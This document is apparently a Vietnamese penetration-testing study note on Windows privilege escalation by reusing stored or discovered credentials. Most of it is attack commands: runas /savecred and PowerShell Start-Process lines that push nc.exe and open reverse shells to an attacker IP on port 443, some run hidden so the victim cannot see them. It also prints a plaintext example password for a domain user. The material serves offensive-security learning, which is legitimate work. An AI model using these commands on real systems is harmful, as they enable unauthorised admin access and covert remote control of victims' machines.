 # Thông qua thông tin xác thực được lưu trữ

- Liệt kê các thông tin lưu trữ trong máy chủ: cmdkey /list

- Có thể thấy thông tin đăng nhập của tài khoản QTV cục bộ đã được lưu trữ trong trình quản lý thông tin xác thực và có thể được sử dụng để thự thi các lệnh
  Liệt kê các thông tin xác thực được lưu trữ bằng công cụ
- WinPEAS : .\winPEASx64.exe windowscreds

- winPEAS ko tìm thấy
- Seatbelt: .\Seatbelt.exe CredEnum

- Seatbelt đã lấy được thông tin như lệnh cmdkey /list

- Thực thi các lệnh bằng thông tin xác thực được lưu trữ

- Sau khi xác định rằng có thông tin xác thực được lưu trữ cho tài khoản quản trị viên cục bộ trên máy này, chúng tôi có thể sử dụng những thông tin xác thực đó để thực thi các lệnh bằng runas lệnh.

- NOTE: khi chạy runas nó sẽ tạo ra 1 shell khác và chạy lệnh đó nên giả sử chúng ta chạy lệnh whoami thì sẽ ko có kết quả nào được hiển thị trên shell hiện tại việc của chúng ta là phải chuyển hướng đầu ra vào 1 tệp bằng lệnh sau:

```
runas /env /noprofile /savecred /user:{TÊN} "cmd.exe /c whoami > whoami.txt"
```

- Từ đây ta có thể kiểm chứng được ta đang chạy với quyền admin ta ó thể tạo 1 shell với tư cách admin ta đẩy nc.exe sang và tạo reverse shell với tư cách ngưới dùng admin bằng câu lệnh

```
runas /env /noprofile /savecred /user:{TÊN} "c:\temp\nc.exe {ip attacker} 443 -e cmd.exe"
```

- : Điều này sẽ tạo ra 1 process cmd trên máy nạn nhân và người dùng có thể dễ dàng đóng nó nên ta có thể sử dụng thêm 1 tính năng tàn hình của powershell để thực thi 1 process ẩn.

```
runas /env /noprofile /savecred /user:{TÊN} "powershell.exe -w hidden -c c:\temp\nc.exe {ip attacker} 443 -e cmd.exe"
```

- Nâng cao đặc quyền RunAs thông qua thông tin xác thực được cung cấp

- Giả sử rằng khi chúng tôi có được chỗ đứng trên nạn nhân, chúng tôi không tìm thấy bất kỳ thông tin xác thực nào được lưu trữ bằng lệnh cmdkey /list; tuy nhiên, chúng tôi đã tìm được thông tin xác thực của người dùng khác trong một tệp ở đâu đó trên hệ thống tệp.

Có hai tình huống mà tôi có thể nghĩ ra ngay lập tức khi điều này sẽ hữu ích:

- Tìm thông tin xác thực cho một tài khoản KHÔNG có quyền truy cập vào bất kỳ dịch vụ tiêu chuẩn nào (SMB, RDP, WinRM) và do đó, không có cách nào có thể đoán trước để đăng nhập hoặc nhận shell với tư cách là người dùng này.
- Mọi trường hợp liên quan đến tài khoản đã được thêm vào nhóm quản trị viên cục bộ và cổng 3389 (RDP) đều bị đóng.

# Thực thi các lệnh bằng thông tin xác thực được cung cấp - GUI

- Từ GUI, chúng ta có thể sử dụng lệnh sau để tạo ra dấu nhắc cmd với tư cách một người dùng khác:
  runas /env /noprofile /user:juggernaut.local\cmarko cmd
  Chúng tôi được nhắc nhập mật khẩu và sau khi nhập thành công, dấu nhắc cmd sẽ mở ra với tư cách là người dùng mà chúng tôi đã chỉ định.

- Khi ta thử nhập kèm theo mật khẩu:

```
runas /env /noprofile /user:juggernaut.local\cmarko "N0cturn@l21" cmd
```

- Trang trợ giúp cho chúng tôi biết rằng chúng tôi chỉ có thể nhập mật khẩu của người dùng khi được nhắc.

# Thực thi các lệnh bằng thông tin xác thực được cung cấp – Reverse Shell (Người dùng chuẩn)

- Khi máy mục tieu đã tắt RDP(3389)
  ta bắt lại shell vằ gõ 3 lệnh sau:

```
1. $secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
2. $mycreds = New-Object System.Management.Automation.PSCredential ("TÊN", $secpasswd)
3. Start-Process -FilePath powershell.exe -argumentlist "-w hidden -c C:\temp\nc.exe {ip attacker} 443 -e cmd.exe" -Credential $mycreds
```

- Biến đầu tiên là mật khẩu (trong dấu ngoặc kép).
- Biến thứ hai là gán mật khẩu cho tên người dùng.
- Dòng thứ ba là lệnh chúng tôi muốn chạy bằng thông tin xác thực được lưu trữ.

Sau khi thực thi ta sẽ nhận được shel với tư cách người dùng

Thực thi các lệnh bằng thông tin xác thực được cung cấp – Reverse Shell (Đã thêm người dùng quản trị cục bộ)

Nếu tôi lấy được tài khoản của tài khoản nằm trong nhóm local administrator nhưng mà lại không phải là tài khoản administrator thì khi mà tôi xá thực được lưu trữ cho người dùng này thì tôi chỉ nhận được shell của người dùng chứ không phải shell của admin

Đây là kết quả của cách hoạt động của UAC. Đối với tài khoản Quản trị viên tích hợp, nếu bạn mở cmd.exe, nó sẽ mở với lời nhắc của quản trị viên theo mặc định. Tuy nhiên, nếu bạn có người dùng thuộc nhóm quản trị viên cục bộ nhưng không phải là tài khoản Quản trị viên tích hợp, để nhận được lời nhắc quản trị, bạn cần mở cmd.exe bằng “Chạy với tư cách quản trị viên”. Nếu chúng tôi chỉ mở cmd.exe với người dùng này và không chạy nó với tư cách quản trị viên, chúng tôi sẽ được cung cấp một lớp vỏ có tính toàn vẹn trung bình tiêu chuẩn.

Sau khi thực hiện các lệnh trên, chúng ta thấy rằng chúng ta đã có shell dưới dạng vcreed trên trình nghe của mình.

Tuy nhiên, khi chúng tôi kiểm tra các đặc quyền của mình bằng whoami /priv, chúng tôi sẽ thấy rằng chúng tôi đang ở trong lớp vỏ có tính toàn vẹn trung bình và KHÔNG có đặc quyền của quản trị viên .
